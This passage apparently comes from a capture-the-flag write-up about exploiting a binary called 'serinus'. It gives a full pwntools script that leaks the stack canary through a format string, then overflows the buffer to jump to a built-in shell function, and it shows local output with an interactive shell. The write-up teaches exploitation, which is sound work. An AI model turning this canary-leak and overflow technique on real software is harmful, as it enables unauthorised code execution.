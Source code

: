 Translation of this into Python code would look like the following:

```Python
payload = cyclic(64) + p32(canary) + cyclic(12) + p32(syst)
```

Obviously `canary` being the canary address we received earlier and `syst` being the return address of the `execute()` function.

We'll then just send it to the program and run `p.interactive()` to give us an interactive shell if we properly executed shellcode. The below is the entirety of the script up to this point:

```Python
#!/usr/bin/python3

from pwn import *

def start(argv=[], *a, **kw):
    if args.REMOTE:  # remote -> python3 exp.py 'ADDRESS' 'PORT'
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # local
        return process([binary] + argv, *a, **kw)

binary = "./serinus"

elf = context.binary = ELF(binary,checksec=False)
p = start()
payload = f'%23$p'.encode()
p.sendlineafter(b'', payload)

leak = p.recvuntil(b"rate it", drop=True)

for token in leak.split():
    print(f"Token: {token}")
    if token.startswith(b"0x"):
        canary = int(token, 16)
        log.info(f"Canary Value: {hex(canary)}")
        break

syst = elf.sym['execute']

payload = cyclic(64) + p32(canary) + cyclic(12) + p32(syst)

p.sendlineafter(b':', payload)
p.interactive()
```

I do enjoy this method of execution as it prevents us from needing to use our own custom shellcode, although we are particularly relying on the `system(/bin/sh)` functionality in the program. Nonetheless, let's test this locally - I'll also remove the `print` debug statement in our token loop.

```
└─$ python3 exp.py
[+] Starting local process './serinus': pid 574673
[*] Canary Value: 0x6c03a800
[*] Switching to interactive mode
)
I need to debug this program later...lets just put a shell call here so I can get to it easier...$ 
$ whoami
daz
$  
```
